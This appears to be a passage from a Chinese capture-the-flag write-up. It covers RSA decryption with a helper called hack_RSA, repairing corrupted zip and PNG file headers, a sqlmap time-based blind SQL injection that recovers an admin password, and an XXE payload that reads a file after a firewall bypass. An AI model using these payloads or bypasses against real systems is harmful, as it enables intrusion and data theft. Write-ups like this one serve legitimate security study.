 ```python
    e = 932333292871340311536583425772799788581476608800501618257200913635688712797956595013312457091949241781390707236218326324287260096872275100972804737277188856396706341586791458364387568557914836880210799183882901779150174060503451992261799576875742788774243390310560719634789720219992974946820314802939572580353
    n = 1083178419603719448638799632475202672644727971741749926078568673467491721729891939162664192885208434541370193744078154888072589708037117486860213089624795029582525501783298026959443870222339003799747202112246474259375161019073230508249672271697738321500894559008261698558072028050806042318719109646040290668273
    c = 629671321698958970045785762020010033814849277886377341930329645318473402676175912514800812974363555981287129835454344489639514895119374277833430799149513068930055615330516662428479865724507981237582779353644800423513485357718723908554543915240117995464419165823214748496569735844685568687856495834900999682293
    d=hack_RSA(e, n)
    print('d=',d)
    m=pow(c, d,n)
    print('m=',m)
    b = hex(m)  #转换成相同的字符串即'0x665554'
    b = b[2:]   #截取掉'0x'
    c = binascii.a2b_hex(b) #转换成ASCii编码的字符串
    print(c)
```

### huahua

下载以后发现压缩包受损，在`010editor`中把压缩包头改为`504b0304`解压后得到一张png图片，也是缺少png头，加上`89504e47`后工具中又提示crc报错，那就再把高改一下即可得到flag

## WEB

### 简单的注入

发一个登录请求，burp存下来    
用sqlmap跑出时间盲注，跑出库名表名，    
然后在lostandfound.user表里`select * from user where username='admin';`    
![](https://i.loli.net/2021/06/14/C4ji3PgoHEKqbIw.png)
出密码`Admin@12999 ...`，登录拿到flag。
![Screenshot_2021-06-12_23_40_51.png](https://i.loli.net/2021/06/14/hVdZijY4qXEgtym.png)

### Flagin

先用burp抓个包，怀疑是xee    
waf拦截后去掉`<?xml`可过    
最终payload:    

```text
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "php://read=convert.base64-encode/resource=/flag.txt" >]>
<user><username>&xxe;</username><password>admin</password></user>
```
